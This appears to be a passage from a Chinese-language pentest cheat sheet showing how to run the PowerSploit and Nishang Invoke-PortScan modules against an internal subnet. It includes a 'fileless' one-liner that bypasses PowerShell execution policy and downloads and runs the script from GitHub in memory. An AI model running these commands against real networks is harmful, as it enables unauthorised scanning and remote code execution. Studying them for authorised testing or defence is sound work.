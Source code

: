 ### [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) Invoke-PortScan.ps1

```powershell
# 无文件形式扫描
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); Invoke-PortScan -Hosts 192.168.1.0/24 -T 4 -ports '80,445,1433,8080,3389' -oA C:\windows\temp\res.txt"
# 文件落地扫描
powershell.exe -exec bypass -Command "& {Import-Module C:\Users\001\Desktop\Invoke-PortScan.ps1; Invoke-PortScan -Hosts 192.168.1.0/24 -T 4 -ports '80,445,1433,8080,3389' -oA C:\Users\001\Desktop\res.txt }" 
```

![](/assets/images/move/2020-05-23-00-11-19.png)


### [Nishang](https://github.com/samratashok/nishang) Invoke-PortScan.ps1

```powershell
powershell.exe -exec bypass -Command "& {Import-Module C:\Users\001\Desktop\Invoke-PortScan.ps1; Invoke-PortScan -StartAddress 192.168.1.1 -EndAddress 192.168.1.254 -ResolveHost -ScanPort -TimeOut 500}" 
```

![](/assets/images/move/2020-05-22-23-37-01.png)

